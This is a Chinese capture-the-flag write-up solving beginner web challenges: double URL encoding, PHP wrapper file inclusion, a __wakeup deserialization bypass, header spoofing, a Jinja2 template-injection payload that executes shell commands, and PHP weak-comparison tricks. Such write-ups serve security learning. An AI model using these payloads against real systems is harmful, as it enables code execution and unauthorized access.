然后从二次url解码入手，也就是说，在url解码之前不是admin，解码之后是admin，那就可以用编码来表示admin，也就是%加十六进制数字


因为url参数经过浏览器传入服务器时会经过一次url解码，源程序里又解码了一次，因此对a编码两次，也就是a -> %61 -> %2561

拿到flag

##### 总结：php扩展名


#### fileinclude


查看源代码


发现是有一个名为language的cookie

并且将相应文件包含进了php文件中

尝试language=flag，没有返回内容

language=chinese，返回了中文的提示信息


经过扫描，确实存在flag.php文件


那么为什么会没反应呢，可能原因就是代码中没有打印的部分

可能需要参数？或者需要想办法打印出flag.php源码？

伪协议拼接？！


果然，不是简单的读取包含flag.php，而是通过php伪协议包含，并且把伪协议部分内容和.php拼接起来


##### 总结：php伪协议，小trick，思考


#### unserialize3


查看源码没信息

尝试url输入参数code=111


代码中存在魔术方法wakeup，应该还有个反序列化的操作

构造脚本

```php
<?php

class xctf {
    public $flag = '111';
    
    // 构造函数
    public function __construct() {
        // 在构造函数中进行赋值操作
        $this->flag = '111';
    }
    
    public function __wakeup() {
        exit('bad requests');
    }
}

// 实例化对象
$a = new xctf();
// 序列化对象
$b = serialize($a);
echo $b;

?>

```

得到序列化后数据

```php
O:4:"xctf":1:{s:4:"flag";s:3:"111";}
```


返回bad requests，也就是wakeup中的代码

绕过wakeup

```php
O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```


##### 总结：反序列化绕过wakeup


#### view_source

F12看源码


#### xff_referer


在header中添加参数

##### X-Forwarded-For（XFF）和 Referer

- **X-Forwarded-For（XFF）**：通常由代理服务器添加，用于指示真实的客户端 IP 地址。然而，由于 XFF 是一个自定义的标头，并且可以由客户端修改，因此不应该完全信任它来确定客户端的真实 IP 地址。特别是在使用 CDN 或代理服务器时，XFF 可能会被篡改，因此不应该作为唯一确定客户端 IP 地址的方法。
- **Referer**：Referer 标头包含了发起当前请求的来源 URL。虽然 Referer 标头在某些情况下可以提供有用的信息，但同样可以被伪造。例如，可以通过修改请求的 Referer 标头来尝试欺骗服务器，以获取未经授权的访问或执行其他攻击。


#### Web_python_template_injection


只给了这个

搜索python template injection

[以 Bypass 为中心谭谈 Flask-jinja2 SSTI 的利用 - 先知社区](https://xz.aliyun.com/t/9584?time__1311=n4%2BxuDgD9ADtDQII40ywbDyiYDO%2BO3DcD3D)

可以利用下面的payload进行注入

```python
{{''.__class__.__bases__[0].__subclasses__()[166].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```


ls -l查看当前目录


发现一个fl4g文件，cat查看内容


##### 总结：python模板漏洞


#### easyphp


php代码审计

浏览代码，这道题算是很全面的考察了php函数漏洞

函数漏洞具体可以参考：[php函数漏洞](https://blog.csdn.net/qq_40491569/article/details/83175838)

##### **1. 对于参数a，既要长度不超过3，又要换成整形大于6000000**

可以考虑科学计数法，1e9，验证通过：


注意看，每个参数不通过返回信息是不一样的，这是出题人对我们的宽容

##### **2. 对于b，md5加密后六位等于8b184b**

没思路，参考大佬wp：https://www.cnblogs.com/gradyblog/p/16990173.html

自己编写脚本撞库

```php
<?php

for($i=1;$i<=100000000;$i++)
{
    if('8b184b' === substr(md5($i),-6,6))
    {
        echo $i;
        break;
    }
}

?>
```


b=53724，验证通过


##### **3. 对于c[m]，不是数字，并且大于2022**

这里也是学到了，php数组的键可以是字符串

根据php弱类型比较，应该只需要让c[m]为2023a就可以了

```php
<?php

$c = array(
    "m" => "2023a"
);
$c=$c.json_encode($c);
echo $c."\n";

$d=(array)json_decode($c);
if(is_array($d) && !is_numeric($d) && $d > 2022){
    echo 1;
}else {
    echo 0;
}

?>
```

结果：

```php
Array{"m":"2023a"}
1
```

验证通过：2023a是可以满足的


##### 4. c[n]是数组，2个元素，且c[n][0】也是数组

##### 4.1 数组c[n]中有一个字符串是 "DGGJ", 同时下一行如果数组中有值是'DGGJ',就返回die


没思路，再次参考，豁然开朗，茅塞顿开，array_search弱类型比较漏洞

考点：此处利用array_search函数在比较两者是否相等时是使用的弱类型比较 其他字符串在与数字比较的时候会转为0，那么传入是0 的话 0==0 就会返回true 所以 n => [array(1,2), 0]

代码如下：

```php
<?php

$c = array(
    "m" => "2023a",
    "n" => array(array(1,2),0)
);

echo json_encode($c)."\n";

if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022){
    if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0])){
        $d = array_search("DGGJ", $c["n"]);
        $d === false?die("no..."):NULL;
        foreach($c["n"] as $key=>$val){
            $val==="DGGJ"?die("no......"):NULL;
        }
         echo 1;
     }else{
         echo 2;
     }
}else {
    echo 0;
}

?>
```


将{"m":"2023a","n":[[1,2],0]}作为最后一个参数c传入


拿到flag


##### 总结：php各种函数漏洞


#### ----------------------------------------------------------------------分界线----------------------------------------------------------------------------------

至此，攻防世界web部分1、2难度的题做完


